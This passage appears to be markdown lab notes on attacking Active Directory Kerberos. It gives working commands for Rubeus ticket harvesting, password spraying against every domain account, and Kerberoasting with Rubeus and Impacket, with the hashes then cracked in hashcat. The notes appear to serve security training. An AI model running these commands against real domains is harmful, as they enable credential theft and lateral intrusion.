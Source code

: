 #### Harvesting tickets 
Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

The following payload will tells Rubeus to harvest TGT every 30s
```cmd
Rubeus.exe harvest /interval:30
```

#### Brute-Forcing / Password-Spraying
***Brute-Forcing***:Try a bunch of password for one user account
***Password-Spaying***:Try one password for a bunch of known user account

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. 
```cmd
echo IP DOMAINNAME.local >> C:\Windows\System32\drivers\etc\hosts
```
Since we are logged into the machine, the following command will find every user account and spray the given password against them all.
```cmd
Rubeus.exe brute /password:Password1 /noticket
```
If there is a match, it will return the .kirbi TGT for that user, it looks like that : 
[sortie_spray_kerbrute](images/sortie_spray_kerbrute.png)


# KERBEROASTING / RUBEUS & IMPACKET
***Most popular Kerberos attack***
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password

To find account those are Kerberoastable, we can use BloodHound (I will try it another time)
#### WITH RUBEUS
This is used from the remote machine
The following command line will dump Kerberos hash and return any kerberoastable users
```cmd
Rubeus.exe kerberoast
```
- We can now copy the hash to our machine and crack it with : 
be careful of spaces and /n when copy-pasting
```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

#### WITH IMPACKET
This is used from our local machine and it's require to have a valid username and password credentials
This following command line will dump Kerberos hashes and return any kerberoastable users
```bash
GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.74.147 -request
```

- We can now copy the hash to our machine and crack it with : 
be careful of spaces and /n when copy-pasting
```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```
